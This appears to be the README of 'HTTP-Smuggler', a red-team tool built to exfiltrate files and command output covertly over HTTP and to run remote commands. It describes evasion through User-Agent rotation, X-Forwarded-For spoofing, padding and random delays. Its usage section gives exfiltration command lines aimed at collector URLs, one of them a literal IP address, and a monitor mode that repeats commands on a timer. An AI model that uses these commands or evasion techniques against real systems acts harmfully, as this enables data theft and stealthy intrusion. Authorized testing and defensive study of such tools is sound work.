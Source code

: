# HTTP-Smuggler

![Python](https://img.shields.io/badge/python-3.6%2B-blue)
![License](https://img.shields.io/badge/license-MIT-green)
![Platform](https://img.shields.io/badge/platform-windows%20%7C%20linux%20%7C%20macos-lightgrey)

Covert HTTP smuggling tool for stealthy data exfiltration and command execution, specifically optimized for reliable Remote Code Execution (RCE) operations. The agent evades detection through chunked encoding and traffic spoofing techniques while maintaining robust command-and-control connectivity. Designed for red team engagements, it supports both immediate task execution and persistent monitoring modes. The Flask server securely collects and isolates payloads with proper logging for operational security.

## Features

- **Stealthy Data Exfiltration**: Files are transferred using chunked encoding and base64 obfuscation
- **Command Execution**: Remote command execution with results exfiltrated to server
- **Monitor Mode**: Repeated command execution at specified intervals
- **Multiple Delivery Options**:
  - Python script (cross-platform)
  - Standalone Windows executable (client.exe)
- **Evasion Techniques**:
  - Random User-Agent rotation
  - IP spoofing via X-Forwarded-For
  - Request size variation with random padding
  - Randomized delay between requests
- **Server Component**: Flask-based receiver with proper data handling

## Components

### Client Options
1. **Python Script (`client.py`)**
   - Cross-platform (Windows/Linux/macOS)
   - Requires Python environment

2. **Standalone Executable (`client.exe`)**
   - Windows-only compiled version
   - Same command structure as Python script
   - No Python installation required

### Server (`server.py`)
- Flask-based receiver endpoint
- Handles both command output and file uploads
- Stores received data with timestamps
- Includes basic security measures

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Mattb709/HTTP-Smuggler.git
   cd HTTP-Smuggler
   ```

2. For Python version, install dependencies:
   ```bash
   pip install flask requests
   ```

## Usage

### Server Setup
```bash
python server.py
```

### Client Operations

**Using Python script:**
```bash
python client.py -c "whoami" -s http://your-server.com/exfil
```

**Using Windows executable:**
```cmd
client.exe -f newtest.txt -s http://142.134.220.83:80/exfil
```

**Execute a single command:**
```bash
python client.py -c "whoami" -s http://your-server.com/exfil
# OR
client.exe -c "whoami" -s http://your-server.com/exfil
```

**Exfiltrate a file:**
```bash
python client.py -f /path/to/file -s http://your-server.com/exfil
# OR
client.exe -f C:\path\to\file -s http://your-server.com/exfil
```

**Monitor mode (repeated execution):**
```bash
python client.py -c "netstat -ant" -s http://your-server.com/exfil -m -t 5
# OR
client.exe -c "netstat -ant" -s http://your-server.com/exfil -m -t 5
```
(Executes every 5 minutes)

## Options

| Flag | Description                                  | Required |
|------|----------------------------------------------|----------|
| -c   | Command to execute                           | Optional |
| -f   | File to exfiltrate                           | Optional |
| -s   | Server URL (default: http://mydomain.com/exfil) | No       |
| -m   | Enable monitor mode                          | No       |
| -t   | Time interval in minutes for monitor mode    | With -m  |

*Note: Options work identically in both Python script and compiled executable versions*

## Legal Disclaimer

This tool is provided for educational and authorized testing purposes only. The author is not responsible for any misuse or damage caused by this software. Always obtain proper authorization before testing any systems.

## License

MIT License - See [LICENSE](LICENSE) for details.

## Sample Images

**Server.py deployment and interaction from client:**
